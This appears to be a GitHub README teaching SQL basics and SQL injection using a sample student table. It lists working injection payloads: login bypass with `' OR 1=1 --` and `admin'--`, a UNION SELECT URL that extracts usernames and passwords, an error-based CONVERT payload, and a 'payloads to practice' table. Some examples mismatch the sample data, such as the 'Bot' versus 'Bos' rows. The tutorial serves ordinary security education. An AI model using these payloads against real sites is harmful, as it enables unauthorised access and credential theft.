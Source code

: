# 🔍 Introduction to SQL & SQL Injection

## 📘 What is SQL?

**SQL** stands for **Structured Query Language**. It's a programming language used to **store, manage, update, and retrieve data** from **relational databases** like MySQL, PostgreSQL, and MSSQL.

With SQL, users can:
- Insert new data
- Update existing data
- Delete data
- Retrieve specific records

For example:
```sql
SELECT * FROM students;
```

## 📘 What is SQL injection?

SQL Injection is a web vulnerability that happens when a web application allows user input to modify or interfere with backend SQL queries.

In simple words:
If an attacker types something unusual in a login form or search box, and it directly gets used in a database query, they can:

Login without a password

View hidden user data

Delete or modify records

Even take full control of the database!

## 🧠Sample Database: student.db

| id | name    | age | grade | email                                       |
| -- | ------- | --- | ----- | ------------------------------------------- |
| 1  | Alice   | 15  | 10th  | [alice@mail.com](mailto:alice@mail.com)     |
| 2  | Bob     | 16  | 11th  | [bob@mail.com](mailto:bob@mail.com)         |
| 3  | Charlie | 14  | 9th   | [charlie@mail.com](mailto:charlie@mail.com) |
| 4  | Bos     | 15  | 10th  | [bot@mail.com](mailto:bot@mail.com)         |



## 🛠 Basic SQL Commands

SELECT * FROM students;

ㅤ-- Prints the whole table


SELECT name, age FROM students;

ㅤ-- Retrieves only name and age columns


SELECT * FROM students WHERE name = 'Alice';

ㅤ-- Returns only Alice’s record

UPDATE students SET grade = '12th' WHERE name = 'Bob';

ㅤ-- Updates Bob’s grade

DELETE FROM students WHERE name = 'Bot';

ㅤ-- Removes Bos’s record

## 🚨 SQL Injection Example
Injection into the username parameter with a single quote: admin'--

SELECT * FROM members WHERE username = 'admin'--' AND password = 'password' 

--If successful, this will log you as the admin user because the rest of the SQL query after will be ignored.

```🔐1```.Login Bypass Using `' OR 1=1 --`

### 🧪 Input in Login Form:
```text
Username: ' OR 1=1 --
Password: [anything or blank]
```

🧠 What happens in the backend:

SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';

1=1 is always true ✅

-- comments out the rest of the query

So the attacker gets logged in without credentials

```📚 2``` Extract Specific Data with ` UNION SELECT`

###🧪 URL Injection Example:

```https://vulnerable.site/products?category=1 UNION SELECT null, username, password FROM users```
🧠 Why It Works:
The attacker joins two SELECT queries

The second query pulls data from the users table

💡 Tip: UNION-based SQLi often needs you to first discover the number of columns (using `ORDER BY` or `UNION SELECT null,...`)

`🔍 3` Error-Based SQL Injection

🧪 Input:

`' AND 1=CONVERT(int, (SELECT TOP 1 name FROM sysobjects))--`

🧠 What it does:
Tries to convert database output into a type it shouldn’t be

Forces the app to throw a database error showing table names or structure.

`💡 4` Using Comments to Bypass Filters

SQL comments are used to ignore the rest of the SQL so the injection doesn’t break the syntax.

Common comment symbols:
```
-- (double dash)
# (hash)
/* ... */ (block comment)
```

Example:
`Username: admin'-- `

This becomes:
`SELECT * FROM users WHERE username = 'admin'--' AND password = 'abc';`

✅ The `--` turns off the rest of the query.


🧠 Summary: Top Payloads to Practice

| Payload                  | Purpose                      |
| ------------------------ | ---------------------------- |
| `' OR 1=1 --`            | Bypass login                 |
| `admin' #`               | Comment out rest of query    |
| `' UNION SELECT ... --`  | Extract other table data     |
| `ORDER BY 3--`           | Test number of columns       |
| `' AND 1=0 UNION SELECT` | Combine true and false logic |



































